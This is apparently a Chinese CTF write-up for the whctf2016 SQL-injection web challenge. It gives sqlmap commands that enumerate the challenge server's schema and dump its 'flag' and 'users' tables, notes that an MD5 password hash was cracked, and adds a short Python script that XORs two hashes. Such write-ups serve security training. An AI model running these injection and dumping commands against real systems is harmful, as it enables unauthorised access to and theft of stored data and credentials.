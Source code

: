 ```yaml
---
layout:     post
title:      "whctf2016-web-窃取"
date:       2016-05-29 14:30:00
category:   writeup
tag:        whctf2016
---
```

# 题目信息

`score: 200` `type:web sql` `source: whctf2016`

[知识点:sqlmap用户手册](http://drops.wooyun.org/tips/143)

[个人收集](http://ctf.a306.xyz:8001/whctf/qiequ/)

## 描述

好像是一篇文章。给了四个链接，点击分别显示文章内容

![](whctf2016-qiequ-1.png)

# 题解

直接sqlmap跑一下，主要就是参数的使用

## 查看数据库结构

`sqlmap -u http://ctf.a306.xyz:8001/whctf/qiequ/index.php?id=1 --schema --exclude-sysdbs`

![](whctf2016-qiequ-2.png)

## 查看表结构

有两个表名为flag，最可疑，查看他们

`sqlmap -u http://ctf.a306.xyz:8001/whctf/qiequ/index.php?id=1 --dump -T "flag"`

![](whctf2016-qiequ-3.png)

`sqlmap -u http://ctf.a306.xyz:8001/whctf/qiequ/index.php?id=1 --dump -D "wh_ct4_hgduyingjkhjhjg" -T "flag"`

![](whctf2016-qiequ-4.png)

得知答案为异或user表中的字段

`sqlmap -u http://ctf.a306.xyz:8001/whctf/qiequ/index.php?id=1 --dump -T "users"`

![](whctf2016-qiequ-5.png)

发现其中admin的密码md5解密后为`qwer`，提交答案不对，猜测是user1和user2的密码经过异或再md5解密

## py

```
s1 = 0x8FC63BC4337CD4B5F70577118BB69FE8
s2 = 0x6a3fba70c97c880679a740669ddd5ca3
s3 = s1^s2
print hex(s3)
```
